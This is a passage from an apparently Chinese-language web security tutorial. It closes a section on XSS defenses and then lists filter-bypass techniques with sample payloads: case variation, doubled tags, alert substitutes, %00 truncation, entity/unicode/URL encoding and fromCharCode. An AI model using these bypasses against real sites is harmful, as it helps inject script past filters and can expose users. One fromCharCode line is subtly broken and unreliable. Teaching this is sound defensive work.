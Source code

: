 ##### 输入内容长度控制

　　对于不受信任的输入，都应该限定一个合理的长度。虽然无法完全防止xss发生，但可以增加xss攻击的难度。

#### 小结

　　**XSS攻击防御方法：XSS filter；纯前端渲染，数据分离；HTML转义；设置HttpOnly属性；设置CSP；限制输入内容的长度**

### XSS绕过的技巧

　　有xss防御便会有xss绕过防御姿势，这是攻与防不断博弈的表现与成果。

#### 大小写绕过

```
<Script>alert(1)</Script>
```

#### 双写绕

```
<scrscriptipt>alert(1)</scrscriptipt>
```

#### 替换绕过

```
过滤 alert 用prompt，confirm，top['alert'](1)代替绕过过滤() 用``代替绕过过滤空格 用%0a（换行符）,%0d（回车符），/**/代替绕过小写转大写情况下 字符ſ大写后为S（ſ不等于s）
```

#### %00截断绕过

```
<a href=javascr%00ipt:alert(1)>xss</a>
```

#### 编码绕过

```
实体编码
javascrip&#x74;:alert(1) 十六进制
javascrip&#116;:alert(1) 十进制

unicode编码
javascrip\u0074:alert(1)

url编码
javascrip%74:alert(1)
```

#### fromCharCode方法绕过

```
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)
eval(FromCharCode(97,108,101,114,116,40,39,120,115,115,39,41))
```
